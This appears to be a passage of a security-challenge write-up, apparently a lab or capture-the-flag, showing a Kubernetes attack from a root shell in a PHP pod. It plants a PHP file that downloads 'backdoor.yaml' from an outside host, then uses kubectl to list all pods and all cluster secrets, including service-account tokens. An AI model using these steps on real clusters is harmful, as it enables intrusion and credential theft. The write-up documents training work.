 <br>
<p align="center">Since August, I’ve faced this challenge across many different days, each one demanding persistence and creativity. Discovering a simpler way to transfer files was a breakthrough, bu it´s just one step.<br><br>💙 I’m relying on that same strength to stay focused and keep building my career in information security!</p>

```bash
root@php-deploy-6d998f68b9-fvtcg:/var/www/html# cat > /var/www/html/aa.php << 'EOF'
<g:/var/www/html# cat > /var/www/html/aa.php << 'EOF'
> <?php
<?php
> file_put_contents('backdoor.yaml', file_get_contents('http://xx.xxx.xx.xx:8000/backdoor.yaml'))
<ontents('http://xx.xxx.xx.xx:8000/backdoor.yaml'))
> ?>
?>
> EOF
EOF
```

```bash
root@php-deploy-6d998f68b9-fvtcg:/var/www/html# exit
```

<br>
<p align="center">Navigated to <strong>xx.xxx.xx.xx:30679/aa.php</strong></p>


```bash
root@php-deploy-6d998f68b9-fvtcg:/var/www/html# ./kubectl get pods -A                 
./kubectl get pods -A
NAMESPACE     NAME                                       READY   STATUS        RESTARTS      AGE
kube-system   calico-node-gnp7n                          1/1     Running       1 (91d ago)   91d
kube-system   calico-node-rpn2b                          1/1     Running       0             42m
kube-system   coredns-64c6478b6c-kj7d2                   1/1     Terminating   5 (91d ago)   3y200d
kube-system   calico-kube-controllers-664fd6f4fb-nj4q2   0/1     Terminating   1             91d
frankland     php-deploy-6d998f68b9-wlslz                1/1     Terminating   4 (91d ago)   3y199d
frankland     php-deploy-6d998f68b9-fvtcg                1/1     Running       0             37m
kube-system   coredns-64c6478b6c-x6wss                   1/1     Running       0             37m
kube-system   calico-kube-controllers-664fd6f4fb-5hlbd   1/1     Running       0             37m
```

<br>

```bash
root@php-deploy-6d998f68b9-fvtcg:/var/www/html# ./kubectl get secrets -A
./kubectl get secrets -A
NAMESPACE         NAME                                             TYPE                                  DATA   AGE
...
frankland         default-token-5fdt4                              kubernetes.io/service-account-token   3      3y200d
frankland         op-token-26qmx                                   kubernetes.io/service-account-token   3      3y200d
...
```
